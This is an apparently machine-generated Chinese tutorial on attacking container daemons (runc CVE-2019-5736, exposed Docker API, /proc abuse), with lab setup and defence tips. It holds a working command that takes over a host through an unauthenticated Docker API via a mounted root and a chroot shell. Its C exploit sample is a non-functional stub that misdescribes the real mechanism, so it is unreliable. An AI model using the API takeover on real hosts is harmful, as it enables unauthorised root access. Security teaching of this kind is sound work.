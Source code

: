 # 容器守护进程漏洞的攻击技术

## 1. 技术原理解析

容器守护进程（如Docker的`dockerd`）是容器化技术的核心组件，负责管理容器的生命周期、网络、存储等。由于其高权限和广泛的功能，容器守护进程成为攻击者的主要目标。常见的容器守护进程漏洞包括：

### 1.1 权限提升漏洞
容器守护进程通常以`root`权限运行，攻击者通过利用漏洞可以提升权限，获得宿主机的完全控制权。例如，CVE-2019-5736是一个经典的权限提升漏洞，攻击者可以通过覆盖`/proc/self/exe`文件来执行任意代码。

### 1.2 未授权访问漏洞
如果容器守护进程的API未正确配置访问控制，攻击者可以通过网络直接访问API，执行恶意操作。例如，未配置TLS的Docker API可能被攻击者利用来创建恶意容器或执行命令。

### 1.3 容器逃逸漏洞
容器逃逸是指攻击者从容器内部突破隔离，获得宿主机的访问权限。常见的逃逸方式包括利用内核漏洞、滥用`/proc`或`/sys`文件系统、以及利用容器运行时配置错误。

## 2. 常见攻击手法和利用方式

### 2.1 CVE-2019-5736: runc容器逃逸
**原理**: 攻击者通过覆盖`/proc/self/exe`文件，替换容器运行时的二进制文件，从而在宿主机上执行任意代码。

**步骤**:
1. 在容器内编译恶意代码，覆盖`/proc/self/exe`。
2. 等待宿主机执行`docker exec`等命令，触发恶意代码执行。

**代码示例**:
```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main() {
    int fd = open("/proc/self/exe", O_WRONLY);
    if (fd == -1) {
        perror("open");
        return 1;
    }
    write(fd, "malicious code", 14);
    close(fd);
    return 0;
}
```

### 2.2 未授权Docker API访问
**原理**: 如果Docker API未配置TLS或访问控制，攻击者可以通过网络直接访问API，执行恶意操作。

**步骤**:
1. 扫描目标主机，发现开放的Docker API端口（默认2375）。
2. 使用Docker客户端连接API，创建恶意容器或执行命令。

**命令示例**:
```bash
docker -H tcp://<target_ip>:2375 run --rm -v /:/host alpine chroot /host /bin/sh
```

### 2.3 滥用`/proc`文件系统
**原理**: 容器内的`/proc`文件系统暴露了宿主机的部分信息，攻击者可以通过读取或修改`/proc`文件来逃逸容器。

**步骤**:
1. 在容器内读取`/proc/self/mountinfo`，获取宿主机的挂载点。
2. 通过挂载点访问宿主机的文件系统。

**命令示例**:
```bash
cat /proc/self/mountinfo
```

## 3. 实验环境搭建指南

### 3.1 环境准备
- **宿主机**: Ubuntu 20.04
- **Docker版本**: 18.09.7（包含CVE-2019-5736漏洞）
- **工具**: Docker客户端、gcc编译器

### 3.2 搭建步骤
1. 安装Docker:
   ```bash
   sudo apt-get update
   sudo apt-get install docker.io=18.09.7
   ```
2. 启动一个容器:
   ```bash
   docker run -it --rm alpine /bin/sh
   ```
3. 在容器内编译并执行恶意代码:
   ```bash
   apk add gcc
   gcc -o exploit exploit.c
   ./exploit
   ```

## 4. 防御措施

### 4.1 更新和补丁
及时更新容器运行时和操作系统，修复已知漏洞。

### 4.2 配置访问控制
为Docker API配置TLS和访问控制，限制未授权访问。

### 4.3 最小权限原则
使用非`root`用户运行容器，减少权限提升的风险。

### 4.4 安全审计
定期审计容器配置和运行状态，发现潜在的安全隐患。

## 5. 总结

容器守护进程漏洞是容器安全的重要威胁，攻击者通过权限提升、未授权访问和容器逃逸等手段，可以获得宿主机的完全控制权。通过深入理解漏洞原理和攻击手法，采取有效的防御措施，可以显著降低安全风险。

---

*文档生成时间: 2025-03-14 12:05:39*
